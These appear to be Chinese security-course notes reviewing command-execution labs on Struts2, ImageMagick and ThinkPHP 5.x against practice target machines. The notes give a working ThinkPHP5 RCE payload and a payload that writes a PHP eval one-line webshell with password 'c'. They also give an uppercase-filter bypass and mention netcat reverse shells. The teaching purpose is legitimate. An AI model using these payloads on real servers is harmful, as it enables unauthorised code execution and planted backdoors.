




# 课程P24：第22天 - 命令执行漏洞考核讲解 🎯


在本节课中，我们将对之前布置的命令执行漏洞相关考核作业进行讲解。课程将涵盖多个实验的核心操作步骤、利用原理以及常见问题的解决方法，旨在帮助大家巩固命令执行漏洞的知识点。


---

## 实验回顾与总体说明

上一节我们介绍了命令执行漏洞的基本原理和常见函数。本节中，我们来看看布置的几个实验作业，并对其中的关键操作和问题进行讲解。


对照实验指导书进行操作，应该没有太大问题。实验涉及的RCE代码片段原理是相通的。

唯一需要注意的不同点是扩展利用方式。例如，当分号等字符被过滤时，如何通过命令执行写入一句话木马。


---

## 实验一：Struts2框架漏洞利用 🚀

本实验利用Apache Struts2框架的历史漏洞进行命令执行。

### 环境部署步骤

以下是部署漏洞环境的基本流程，这是进行Web安全研究的必备技能。


1.  从指导书提供的链接下载漏洞环境War包。
2.  启动Tomcat服务器（默认端口8080）。
3.  将下载的War包解压，将其中的应用程序文件放置到Tomcat的Web根目录（通常是 `webapps` 文件夹下）。
4.  访问对应的URL路径，例如 `http://靶机IP:8080/struts2-showcase/`。


**注意**：访问时若URL路径末尾多了一个“/”，可能导致点击页面功能（如Edit）时路径错误，需手动修正。

### 漏洞利用过程


本实验通过上传一个特制的JSP Webshell（POC）来执行系统命令。


*   **POC核心**：POC是一个JSP脚本，其中包含执行系统命令的Java代码。对于初学者，无需深究Java语法，重点理解其执行命令的部分。
*   **命令执行**：POC中类似 `Runtime.getRuntime().exec("calc");` 的代码会调用系统计算器。我们可以将其中的命令替换为其他系统指令，如 `ipconfig`。
*   **利用方法**：使用Burp Suite等工具拦截请求，将POC代码作为数据包发送到目标服务器。若执行成功，则会弹出计算器或执行相应命令。


---

## 实验二：ImageMagick组件漏洞 💥

本实验针对ImageMagick图像处理库存在的命令执行漏洞。

当通过其他方式获取Webshell后，如果发现服务器使用了存在漏洞版本的ImageMagick组件，并且系统函数（如`system`）执行受限，可以尝试利用此漏洞进行深度利用。

具体操作步骤请参照实验指导书。

---

## 实验三：ThinkPHP5 RCE漏洞 🔓

本实验复现ThinkPHP 5.x 版本的远程命令执行漏洞。该漏洞影响广泛，可通过简单构造Payload直接执行系统命令并获取Webshell。

### 漏洞验证与利用

我们以一台部署了ThinkPHP 5.0.24的靶机进行演示。


**1. 漏洞检测**
使用现有POC进行测试。在URL后附加以下参数：
```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
执行后，页面返回当前系统用户（如`apache`），证明漏洞存在。

**2. 原理浅析**
该Payload利用了框架的动态调用函数。核心是 `call_user_func_array` 函数。
```php
call_user_func_array($function, $param_arr);
```
该函数将第一个参数作为回调函数调用，第二个参数数组作为回调函数的参数传入。在上述Payload中，相当于执行了：
```php
system('whoami');
```


**3. 写入Webshell**
通过漏洞写入一句话木马。使用以下Payload：
```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=<?php @eval($_POST[‘c‘]);?>
```
*   `file_put_contents` 函数用于将内容写入文件。
*   此Payload会将PHP代码 `<?php @eval($_POST[‘c‘]);?>` 写入网站根目录下的 `shell.php` 文件。
*   访问 `http://靶机IP/shell.php`，使用密码 `c` 即可连接Webshell。


### 重要细节区分

*   **分号问题**：使用 `eval()` 等执行PHP代码时，传入的字符串必须是完整的PHP代码，**需要以分号结尾**。
*   **断言函数**：使用 `assert()` 函数时，它将其参数作为PHP代码执行，但该参数本身是一个**字符串**。因此，直接传递 `phpinfo()` 可以执行，传递 `phpinfo();`（带分号）同样可以执行，因为它会被当作字符串内容处理。


---


## 进阶技巧与问题解答 🛠️


本节我们补充一个上节课未详细说明的过滤绕过技巧，并解答一些常见问题。


### 绕过大小写转换过滤



考虑以下代码场景：
```php
$data = $_GET[‘d‘];
$data = strtoupper($data); // 将输入转换为大写
preg_replace(‘/.*/e‘, $data, ‘‘);
```
代码将用户输入转换为大写后，再传入 `preg_replace` 的 `/e` 模式执行。这会导致 `phpinfo()` 变成 `PHPINFO()` 而无法识别。




**绕过方法**：利用PHP双引号字符串的特性。
*   在双引号字符串中，如果包含变量，PHP解释器会先将其替换为变量值。
*   在单引号字符串中，则不会处理。


因此，可以构造Payload：`“{${phpinfo()}}”`。PHP会先解析变量 `{${phpinfo()}}`，即执行 `phpinfo()` 函数，然后将执行结果（空）代入字符串。这样，最终传递给 `preg_replace` 的是已执行过的结果，绕过了大写转换。


### 常见问题汇总




以下是针对同学们提出的问题的解答：

1.  **指纹识别**：识别网站是否使用ThinkPHP等框架，可使用工具如 `WhatWeb`，或观察URL特征（如包含 `public`、`index.php` 等典型路径）。
2.  **工具使用**：`nc` (Netcat) 是反弹Shell的常用工具。使用时需注意Windows与Linux版本差异，以及是否支持 `-e` 参数。
3.  **学习建议**：实践时多做笔记，记录操作步骤、遇到的问题和解决方案。尝试发散思维，不仅执行命令，更要思考如何最终获得稳定Shell（如写入Webshell、建立反向连接等）。

---


## 课程总结 📚


本节课我们一起学习了多个命令执行漏洞实验的考核要点：
1.  回顾了Struts2、ImageMagick、ThinkPHP等常见组件的RCE漏洞利用方法。
2.  深入分析了ThinkPHP5 RCE漏洞的Payload构造原理，理解了 `call_user_func_array` 等函数在漏洞利用中的作用。
3.  掌握了通过双引号字符串解析绕过大小写过滤等进阶技巧。
4.  强调了动手实践、记录笔记和发散思维在安全学习中的重要性。


命令执行漏洞的核心在于理解“用户输入如何被作为系统命令或代码执行”。希望大家通过本次考核练习，能更牢固地掌握相关技能，并养成独立研究和解决问题的习惯。